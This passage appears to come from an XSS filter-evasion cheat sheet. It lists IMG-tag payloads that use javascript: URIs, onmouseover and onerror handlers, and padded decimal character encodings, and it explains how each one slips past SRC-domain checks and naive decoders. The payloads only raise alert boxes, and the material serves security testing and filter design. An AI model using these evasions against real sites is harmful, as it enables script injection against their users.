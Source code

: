 `<IMG SRC=javascript:alert(String.fromCharCode(88,83,83))>`

Default SRC Tag to Get Past Filters that Check SRC Domain
---------------------------------------------------------

This will bypass most SRC domain filters. Inserting javascript in an event method will also apply to any HTML tag type injection that uses elements like Form, Iframe, Input, Embed etc. It will also allow any relevant event for the tag type to be substituted like `onblur`, `onclick` giving you an extensive amount of variations for many injections listed here. Submitted by David Cross .

Edited by Abdullah Hussam(@Abdulahhusam).

`<IMG SRC=# onmouseover="alert('xxs')">`

Default SRC Tag by Leaving it Empty
-----------------------------------

`<IMG SRC= onmouseover="alert('xxs')">`

Default SRC Tag by Leaving it out Entirely
------------------------------------------

`<IMG onmouseover="alert('xxs')">`

On Error Alert
--------------

`<IMG SRC=/ onerror="alert(String.fromCharCode(88,83,83))"></img>`

IMG onerror and JavaScript Alert Encode
---------------------------------------

`<img src=x onerror="&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041">`

Decimal HTML Character References
---------------------------------

All of the XSS examples that use a javascript: directive inside of an `<IMG` tag will not work in Firefox or Netscape 8.1+ in the Gecko rendering engine mode).

`<IMG SRC=&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#39;&#88;&#83;&#83;&#39;&#41;>`

Decimal HTML Character References Without Trailing Semicolons
-------------------------------------------------------------

This is often effective in XSS that attempts to look for “&#XX;”, since most people don’t know about padding - up to 7 numeric characters total. This is also useful against people who decode against strings like $tmp\_string =~ s/.\*\\&#(\\d+);.\*/$1/; which incorrectly assumes a semicolon is required to terminate a html encoded string (I’ve seen this in the wild):

`<IMG SRC=&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041>`

Hexadecimal HTML Character References Without Trailing Semicolons
-----------------------------------------------------------------
